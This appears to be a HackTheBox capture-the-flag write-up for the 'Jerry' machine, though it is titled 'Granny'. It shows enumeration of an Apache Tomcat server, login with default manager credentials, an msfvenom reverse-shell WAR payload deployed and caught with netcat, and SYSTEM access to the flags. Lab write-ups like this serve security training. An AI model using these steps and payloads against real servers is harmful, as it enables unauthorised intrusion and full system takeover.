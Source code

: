 # Granny
https://app.hackthebox.com/machines/Jerry

![Jerry](images/htb-jerry.png)

Target IP
10.10.10.95

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.95
```

### Nmap

From Nmap results returned from AutoRecon we see that only port 8080 is open and Appache Tomcat is running on it.

```
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

The nmap scan AutoRecon run for each open port also returned that we have a few pages with Basic authentication

```
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.95
|   url                                        method
|   http://10.10.10.95:8080/manager/status     HTTP: Basic
|   http://10.10.10.95:8080/manager/html       HTTP: Basic
|_  http://10.10.10.95:8080/host-manager/html  HTTP: Basic
```

### Webpage

Trying to access the `manager` one, results on a prompt asking for username and password.

![Logon](images/htb-jerry-web-manager-logon.png)

If we cancel the prompt, we are redirect to an error page with some interesting information.

![Logon error](images/htb-jerry-web-manager-logon-error.png)

The error page shows a default password username `tomcat` password `s3cret`. If we reload the page and try to use this credential we get access.

![Access](images/htb-jerry-web-manager-access.png)

## Exploitation

Now we are logged in to the manager app and we can get a shell from here. We are on an apache tomcat server and apache tomcat uses WAR files. To get a reverse shell we will use `msfvenom` to create the payload:

For that we will need to know our HackTheBox VPN IP.
```
$ ip a | grep -E 'inet.+tun0' | awk '{print $2}' | awk -F'/' '{print $1}'
10.10.14.2
```

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war -o jspshell.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: jspshell.war
```

Now we can upload and deploy our payload on the server.

![WAR](images/htb-jerry-web-manager-war-file.png)

![WAR Deploy](images/htb-jerry-web-manager-war-file-deploy.png)

We then open our listner...
```
$ nc -nlvp 4444
listening on [any] 4444 ...
```

... and call the application we uploaded.

```
$ curl http://10.10.10.95:8080/jspshell/
```

As soon as the application is executed, we get a shell

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

The `whoami` command revels that we are *system* on the target.
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

We can now get our flags/proof :-)

```
C:\Users\Administrator\Desktop\flags>hostname && whoami && ipconfig && type "2 for the price of 1".txt
hostname && whoami && ipconfig && type "2 for the price of 1".txt
JERRY
nt authority\system

Windows IP Configuration
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::248
   IPv6 Address. . . . . . . . . . . : dead:beef::d187:5e06:5baa:6632
   Link-local IPv6 Address . . . . . : fe80::d187:5e06:5baa:6632%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:adf7%11
                                       10.10.10.2

Tunnel adapter isatap.{E6565A26-EF2E-43A5-A579-B0F25E7B1DC8}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb

user.txt
700**************************d00

root.txt
04a**************************90e
```

## Extra

- This [GitHub Repo](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt) has a good list of default Tomcat passwords.
- This [script](https://github.com/mgeeky/tomcatWarDeployer) seems to automate the whole process. Maybe would be a good approach learn it later on.